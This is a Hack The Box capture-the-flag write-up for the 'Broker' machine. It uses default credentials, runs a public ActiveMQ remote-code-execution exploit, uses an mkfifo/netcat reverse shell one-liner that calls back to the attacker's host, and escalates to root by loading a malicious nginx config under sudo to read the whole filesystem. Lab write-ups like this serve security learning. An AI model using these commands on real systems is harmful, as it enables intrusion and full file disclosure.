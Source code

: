 ```yaml
---
layout: post
title: Hack The Box - Broker Writeup
date: 2024-06-15 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![brokerBadge.png](/assets/img/Broker/brokerBadge.png)

## Summary

Bypassing basic `HTTP` authentication on port 80 reveals that `Apache ActiveMQ` is used to host website. Searching for `Apache ActiveMQ` vulnerabilities I found exploit which allows RCE. Exploit generated a pseudo shell which I leveraged to get reverse shell on system. Enumerating system as user `activemq` reveals that we can run `/usr/sbin/nginx` with `sudo`. Running `/usr/sbin/nginx` with `-c` parameters allows us to set arbitrary configuration file.  I was able to leverage this by creating a new vulnerable `nginx` configuration file with root directory set to filesystem root. Running `/usr/sbin/nginx` with `sudo` and malicious `nginx.conf` file allowed me to read all files on filesystem. 


## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |


#### Port 80

Accessing port 80 we can see that there is basic HTTP authentication set. 

![80basicAuth.png](/assets/img/Broker/80basicAuth.png)


I was able to sign in using default credentials `admin : admin`. Successful login grants us access to `index.html` which reveals that `Apache ActiveMQ` is used. 

![[Hack The Box/Boxes/Easy/Broker/Screenshots/80.png]]


## Initial Foothold

Searching for `Apache ActiveMQ` vulnerabilities I found [exploit](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) which allows remote code execution.

```
python3 exploit.py -i 10.10.11.243 -si 10.10.14.14 -sp 8087
```

![exploit.png](/assets/img/Broker/exploit.png)

To get reverse shell on the system I used this payload: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 80 >/tmp/f
```

![reverseShell.png](/assets/img/Broker/reverseShell.png)

![userFlag.png](/assets/img/Broker/userFlag.png)


## Privilege Escalation

### System Enumeration

Enumerating system as user `activemq` reveals that we can run `/usr/sbin/nginx` with `sudo`. 

```
sudo -l
```

![sudoL.png](/assets/img/Broker/sudoL.png)

### Creating vulnerable nginx server 

First I tried to see all parameters that can be set when running `nginx`. 

```
sudo /usr/sbin/nginx -h
```

![nginxHelp.png](/assets/img/Broker/nginxHelp.png)

We can see that `-c` option allows us to set arbitrary configuration file. To leverage this I created new `nginx.conf`. Server will be listening on port 8081 and root directory is set to filesystem root. 

```
user root;
worker_processes auto;
error_log /var/log/nginx/error.log warn;
pid /var/run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    server {
        listen 8081;
        server_name localhost;

        root /;  # Setting the root to the filesystem root

        location / {
            try_files $uri $uri/ =404;
        }

        error_page 500 502 503 504 /50x.html;
        location = /50x.html {
            root /usr/share/nginx/html;  # Serve error page from a safer directory
        }
    }
}
```

Running `/usr/sbin/nginx` with this configuration file and `sudo` privileges creates vulnerable `nginx` server on port 8081 which allows us to read any file on filesystem. 

```
sudo /usr/sbin/nginx -c "/tmp/nginx.conf"
```

![escalation.png](/assets/img/Broker/escalation.png)
